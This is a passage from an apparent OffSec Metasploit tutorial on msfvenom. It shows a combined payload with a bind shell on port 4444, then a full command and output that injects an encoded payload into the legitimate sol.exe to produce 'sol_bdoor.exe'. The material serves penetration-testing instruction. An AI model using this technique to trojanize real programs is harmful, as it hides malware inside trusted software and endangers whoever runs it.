 Running the **cookies.exe** file will execute both message box payloads, as well as the bind shell using default settings (port 4444).

[![msfvenom\_c\_2](https://www.offsec.com/wp-content/uploads/2015/05/msfvenom_c_2-300x188.png)](https://www.offsec.com/wp-content/uploads/2015/05/msfvenom_c_2.png)

**msfvenom -x, –template & -k, –keep**

The **-x**, or **–template**, option is used to specify an existing executable to use as a template when creating your executable payload.

Using the **-k**, or **–keep**, option in conjunction will preserve the template’s normal behaviour and have your injected payload run as a separate thread.

```
root@kali:~# msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 299 (iteration=0)
x86/shikata_ga_nai chosen with final size 299
Payload size: 299 bytes
Saved as: sol_bdoor.exe
```
